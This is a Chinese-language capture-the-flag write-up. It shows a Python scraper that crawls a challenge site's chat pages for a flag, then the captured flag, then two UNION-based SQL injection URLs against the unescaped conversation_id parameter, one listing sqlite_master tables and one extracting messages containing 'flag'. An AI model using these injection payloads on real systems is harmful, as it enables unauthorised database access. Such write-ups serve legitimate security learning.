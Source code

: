 ```python
    try:
        response = session.get(url, headers=headers)
        response.raise_for_status()
        return response.text
    except requests.RequestException as e:
        print(f"Error accessing initial page {url}: {e}")
        return None

def get_chat_links(html):
    soup = BeautifulSoup(html, 'html.parser')
    chat_links = []
    for link in soup.find_all('a', href=True):
        if '/view?conversation_id=' in link['href']:
            chat_links.append(link['href'])
    return chat_links

def fetch_and_search(url):
    try:
        response = session.get(url, headers=headers)
        response.raise_for_status()
        soup = BeautifulSoup(response.text, 'html.parser')
        
        # 找flag
        flag_match = flag_pattern.search(soup.get_text())
        if flag_match:
            print(f"{flag_match.group(0)}")
    except requests.RequestException as e:
        print(f"Error accessing {url}: {e}")

initial_html = get_initial_page(initial_url)

list_url = f"{base_url}/list"
list_html = get_initial_page(list_url)

chat_links = get_chat_links(list_html)

# 遍历聊天记录
for chat_link in chat_links:
    url = f"{base_url}{chat_link}"
    fetch_and_search(url)
```

```flag
flag{zU1_xiA0_de_11m_Pa0lule!!!_e6a8213eb7}
```

然后把附件下载下来之后发现在`/view`路由中，直接将用户提供的`conversation_id`参数拼接到SQL查询语句中，而没有进行任何验证或转义，这可能导致SQL注入攻击。

访问`http://链接/view?conversation_id=1' UNION SELECT name, NULL FROM sqlite_master WHERE type='table' --`就可以获取所有表名`message`。

访问`http://链接/view?conversation_id=1' UNION SELECT id, contents FROM messages WHERE contents LIKE '%flag%' --`获取包含flag的消息，在页底同样能拿到第一个flag。
